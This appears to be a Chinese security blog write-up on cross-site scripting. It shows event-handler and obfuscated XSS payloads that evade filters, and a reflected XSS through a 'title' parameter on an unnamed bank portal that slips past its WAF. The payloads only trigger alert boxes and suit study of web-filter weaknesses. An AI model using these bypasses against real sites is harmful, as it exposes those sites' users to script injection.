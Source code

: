 随便打个payload：  
  
<a href=javascript:[1].find(alert)>xss</a>  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2licibBIibMVOuwKibBlQ3dAI9bV0Cu0IqGAkVGAuYpT5TGrWIGrDgRE9hicQ/640?wx_fmt=jpeg "")  
  
发现有过滤，构造事件属性，测试不太会过滤的事件，复制才会触发：  
  
<a oncopy=alert(1)>t  
  
选中t直接复制即可弹窗  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2lWIicgYdwEpGye67U7oxQfibVB7ybhD07p2yf9wjJZCfLpVJgeGIcZVKg/640?wx_fmt=jpeg "")  
  
再测试一下简单交互就触发的事件，payload如下：  
  
<a onmousemove=alert(1)>t  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2ljnKzkGsnuYmWFAUuyzkx43y8q5RiaibYudznyBYBNicxibgsbDTFYRb4Rg/640?wx_fmt=jpeg "")  
  
晃动鼠标就可以弹窗  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2llN4RafWVdIJjUzsoEcm2dNKiaGaUO9STpYWQFRxic1Hia70vawuyOFGwQ/640?wx_fmt=jpeg "")  
  
再稍微变换一下展示操作  
  
<a onmousemove=top[/al/.source+/ert/.source]('xsss')>test  
  
**银行门户的反射型xss**  
  
点击关于我们功能  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2liaia8yiag6IuNPaDtCWQeF4fy167bBQnqh9ExhvickQuZ8n77ib8SlPIGvg/640?wx_fmt=jpeg "")  
  
url中拼接title参数，发现回显到了前端  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2licu7MkIL3ap1fcloXzuYJficFTQgISFyU5Hf7AUDNGCU3MZGPDQbMW5Q/640?wx_fmt=jpeg "")  
  
随便插个payload被waf拦截  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2l5Dia6LMAna96lBBcLd9EuNZJ7YvlLMkl1tDNThmlriadgYnrHUWPbbEQ/640?wx_fmt=jpeg "")  
  
手动测试a标签，可以解析  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2laGNcQ2ic7hC5t437wR78chrI1g4jf3g00cmJPibLIqBiag8yiakWiaQtI9g/640?wx_fmt=jpeg "")  
  
直接上payload：  
  
<a onmousemove=alert(xss)>test  
  
这里本来以为会拦截，结果没拦直接弹了，省的再绕了  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lIfDbzbNaXbE7ibPCId7T2lg09APjX0mf6yTkPibtXIVPiczPE9rj5mC10nZee5AobksNYichMN8yNkg/640?wx_fmt=jpeg "")  
  
  
  
为爱发电，随手点个「推荐」吧！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
  
